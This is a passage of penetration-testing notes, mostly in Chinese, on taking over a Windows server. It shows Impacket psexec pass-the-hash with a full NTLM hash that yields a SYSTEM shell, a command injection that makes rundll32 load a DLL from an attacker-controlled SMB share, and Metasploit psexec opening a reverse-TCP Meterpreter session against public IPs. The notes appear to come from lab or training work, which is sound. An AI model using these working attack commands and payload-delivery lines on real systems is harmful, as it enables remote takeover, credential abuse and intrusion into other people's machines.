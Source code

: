 ```bash!
┌──(root㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─# python3 psexec.py digiserver22@52.255.150.97 -hashes aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 52.255.150.97.....
[*] Found writable share ADMIN$
[*] Uploading file VRNuMamc.exe
[*] Opening SVCManager on 52.255.150.97.....
[*] Creating service AbRv on 52.255.150.97.....
[*] Starting service AbRv.....
[!] Press help for extra shell commands                                                                                      Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\windows\system32> whoami                                                                                                  nt authority\system

```
### SMBExec
SMBExec在目標系統不會生成檔案，較不明顯
```
smbexec.py
```

## Metasploit
### Get Meterpreter
Windows平台可用[PowerShell](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)下載檔案，
也可用[Csutil、bitsadmin、Certutil.exe](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters#download)等內建程式

#### Method 1
利用RCE : `http://digiserver2.eastus.cloudapp.azure.com/store/Admin/Backup`

利用windows的`Rundll32.exe`載後門
```powershell!
$ use exploit/windows/smb/smb_delivery
$ set srvhost 159.89.115.68
$ exploit
```
Command Injection:
`test && rundll32.exe \\159.89.115.68\aMHR\test.dll,0`

![](https://i.imgur.com/hzMMJq7.png)

#### Method 2
利用PSEXEC，[Pass The Hash Attack](https://book.hacktricks.xyz/windows-hardening/ntlm)
```powershell
msf6 exploit(windows/smb/psexec) > use exploit/windows/smb/psexec
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOSTS 40.76.51.149
RHOSTS => 40.76.51.149
msf6 exploit(windows/smb/psexec) > set SMBuser digiserver2
SMBuser => digiserver2
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972
SMBPass => aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 159.89.115.68:4444
[*] 40.76.51.149:445 - Connecting to the server...
```